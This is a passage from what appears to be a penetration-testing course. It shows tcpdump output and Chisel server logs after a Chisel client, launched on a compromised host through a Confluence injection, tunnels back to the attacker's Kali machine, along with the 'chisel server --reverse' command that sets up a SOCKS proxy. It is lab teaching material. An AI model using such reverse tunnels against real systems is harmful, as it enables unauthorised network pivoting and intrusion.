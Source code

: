 > Listing 16 - Trying to start the Chisel client using the Confluence injection payload, again.

This time, different kind of traffic is logged in our Tcpdump session.

```
kali@kali:~$ sudo tcpdump -nvvvXi tun0 tcp port 8080
tcpdump: listening on tun0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
...
18:13:53.687533 IP (tos 0x0, ttl 63, id 53760, offset 0, flags [DF], proto TCP (6), length 276)
    192.168.50.63.41424 > 192.168.118.4.8080: Flags [P.], cksum 0xce2b (correct), seq 1:225, ack 1, win 502, options [nop,nop,TS val 1290578437 ecr 143035602], length 224: HTTP, length: 224
        GET / HTTP/1.1
        Host: 192.168.118.4:8080
        User-Agent: Go-http-client/1.1
        Connection: Upgrade
        Sec-WebSocket-Key: L8FCtL3MW18gHd/ccRWOPQ==
        Sec-WebSocket-Protocol: chisel-v3
        Sec-WebSocket-Version: 13
        Upgrade: websocket

        0x0000:  4500 0114 d200 4000 3f06 3f4f c0a8 323f  E.....@.?.?O..2?
        0x0010:  c0a8 7604 a1d0 1f90 61a9 fe5d 2446 312e  ..v.....a..]$F1.
        0x0020:  8018 01f6 ce2b 0000 0101 080a 4cec aa05  .....+......L...
        0x0030:  0886 8cd2 4745 5420 2f20 4854 5450 2f31  ....GET./.HTTP/1
        0x0040:  2e31 0d0a 486f 7374 3a20 3139 322e 3136  .1..Host:.192.16
        0x0050:  382e 3131 382e 343a 3830 3830 0d0a 5573  8.118.4:8080..Us
        0x0060:  6572 2d41 6765 6e74 3a20 476f 2d68 7474  er-Agent:.Go-htt
        0x0070:  702d 636c 6965 6e74 2f31 2e31 0d0a 436f  p-client/1.1..Co
        0x0080:  6e6e 6563 7469 6f6e 3a20 5570 6772 6164  nnection:.Upgrad
        0x0090:  650d 0a53 6563 2d57 6562 536f 636b 6574  e..Sec-WebSocket
        0x00a0:  2d4b 6579 3a20 4c38 4643 744c 334d 5731  -Key:.L8FCtL3MW1
        0x00b0:  3867 4864 2f63 6352 574f 5051 3d3d 0d0a  8gHd/ccRWOPQ==..
        0x00c0:  5365 632d 5765 6253 6f63 6b65 742d 5072  Sec-WebSocket-Pr
        0x00d0:  6f74 6f63 6f6c 3a20 6368 6973 656c 2d76  otocol:.chisel-v
        0x00e0:  330d 0a53 6563 2d57 6562 536f 636b 6574  3..Sec-WebSocket
        0x00f0:  2d56 6572 7369 6f6e 3a20 3133 0d0a 5570  -Version:.13..Up
        0x0100:  6772 6164 653a 2077 6562 736f 636b 6574  grade:.websocket
        0x0110:  0d0a 0d0a                                ....
18:13:53.687745 IP (tos 0x0, ttl 64, id 60604, offset 0, flags [DF], proto TCP (6), length 52)
    192.168.118.4.8080 > 192.168.50.63.41424: Flags [.], cksum 0x46ca (correct), seq 1, ack 225, win 508, options [nop,nop,TS ...
...
```

> Listing 17 - Inbound Chisel traffic logged by our tcpdump session.

The traffic that Tcpdump has logged indicates that the Chisel client has created an HTTP WebSocket connection with the server running on out Kali machine.

On top of this, our Chisel server has logged an inbound connection.

```
kali@kali:~$ chisel server --port 8080 --reverse
2023/10/03 15:57:53 server: Reverse tunnelling enabled
2023/10/03 15:57:53 server: Fingerprint Pru+AFGOUxnEXyK1Z14RMqeiTaCdmX6j4zsa9S2Lx7c=
2023/10/03 15:57:53 server: Listening on http://0.0.0.0:8080
2023/10/03 18:13:54 server: session#2: Client version (1.8.1) differs from server version (1.8.1-0kali2)
2023/10/03 18:13:54 server: session#2: tun: proxy#R:127.0.0.1:1080=>socks: Listening
```
